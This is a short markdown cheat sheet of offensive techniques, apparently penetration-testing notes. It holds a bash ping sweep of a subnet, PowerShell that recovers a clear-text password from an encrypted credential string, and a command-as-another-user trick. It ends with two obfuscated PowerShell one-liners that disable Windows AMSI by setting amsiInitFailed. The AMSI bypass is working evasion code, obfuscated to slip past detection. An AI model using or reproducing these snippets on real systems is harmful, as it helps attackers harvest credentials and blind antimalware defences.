# ps
ps = ping sweep

just some note will add here
# 
```bash
for i in {1..255} ;do (ping -c 1 172.16.1.$i | grep "bytes from"|cut -d ' ' -f4|tr -d ':' &);done
```

#
convert encrypted powershell password into clear text:
```powershell
$pwd = ConvertTo-SecureString <encrypted text here>
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList "User",$pwd
$cred.GetNetworkCredential()
```
to Execute Command in powershell as another user without runasCs :
```powershell
invoke-command -Computername localhost -Credential $cred -ScriptBlock { whoami }
```
note: you might find yourself in more restriction for using invoke-command rather than RunasCs 


```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )



&("{0}{1}" -f'sET-','ITEm')  ('vaRI'+'Ab'+'lE:hf'+'7S35') ( [tYPE]("{0}{1}"-f're','f')) ; ${A} =   (&("{0}{2}{1}"-f'gEt','abLE','-varI') ('HF'+'7S'+'35')  )."VA`LUE"."A`sSE`mBlY".("{1}{2}{0}"-f 'tTypes','G','e').Invoke();ForEach(${B} in ${A}) {if (${B}."N`AMe" -like ("{0}{2}{1}" -f'*','Utils','i')) {${c} = ${B}}};${d} = ${C}.("{2}{1}{0}{3}" -f 'ld','e','GetFi','s').Invoke(("{2}{0}{3}{4}{1}" -f'bl',',Static','NonPu','i','c'));ForEach(${E} in ${D}) {if (${E}."NA`ME" -like ("{0}{2}{1}"-f '*F','led','ai')) {${F} = ${e}}};${F}.("{1}{0}"-f 'ue','SetVal').Invoke(${nu`ll},${t`RuE})
```
